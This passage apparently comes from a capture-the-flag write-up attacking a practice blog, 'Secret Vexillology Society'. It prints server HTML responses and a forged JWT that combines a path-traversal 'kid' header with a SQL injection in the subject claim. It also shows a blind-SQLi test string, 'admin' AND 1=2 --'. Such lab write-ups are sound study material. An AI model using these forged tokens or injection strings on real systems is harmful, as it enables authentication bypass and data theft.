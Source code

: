 ```html
 </div>
 <div class="card-footer text-muted">
   <a href="edit.php?post_id=2">Edit post</a> |
   <a href="delete.php?post_id=2" onclick="return confirm('Are you sure?')">Delete post</a>
 </div>
</div>
</div>
<div class="row">
<div class="card w-100 mt-4">
 <div class="card-body">
   <h5 class="card-title">Blog finished</h5>
   <h6 class="card-subtitle mb-2 text-muted">Published on 2021-04-28</h6>
   <p class="card-text">I finally found the time to finish the blog for the Secret Vexillology Society. Enjoy your stay here!</p>
 </div>
 <div class="card-footer text-muted">
   <a href="edit.php?post_id=1">Edit post</a> |
   <a href="delete.php?post_id=1" onclick="return confirm('Are you sure?')">Delete post</a>
 </div>
</div>
</div>
</div>
<script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</body>
</html>
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzM4NCIsImtpZCI6Ii4uLy5naXQvb2JqZWN0cy9iMC9lMjdmNmFkZmY1NGM2NzdkMzE4MjVlZGNkNzViYjZkMGU4NzYzZSJ9.eyJzdWIiOiJhZG1pbicgQU5EIDE9MSAtLSIsIm5hbWUiOiJBZG1pbiIsImFkbWluIjp0cnVlfQ.Siuz5R3rt9ceIGpuyfl9EzxsVv6Sh-5oOjpYI9hWw_VOwsLISI4fffmavjE7XPhQ
```
</p>
<p>
However when I tested it for fail response with <code>admin' AND 1=2 --</code> I got:

```html
Logged in as admin! <!doctype html>
<html>
<head>
 <meta charset="utf-8">
 <meta name="version" content="3b026b2ca99eebcb317f726e7841672c441047d5 Release Version 1.0 by Secret Vexillology Master on 2021-03-10 14:01:40 +0000">
 <title>Secret Vexillology Society</title>
 <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
</head>
<body>
<nav class="navbar navbar-expand-lg navbar-light bg-light">
 <a class="navbar-brand" href="/">Secret Vexillology Society</a>
 <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
   <span class="navbar-toggler-icon"></span>
 </button>

 <div class="collapse navbar-collapse" id="navbarSupportedContent">
   <ul class="navbar-nav mr-auto">
     <li class="nav-item active">
       <a class="nav-link" href="/">Home</a>
```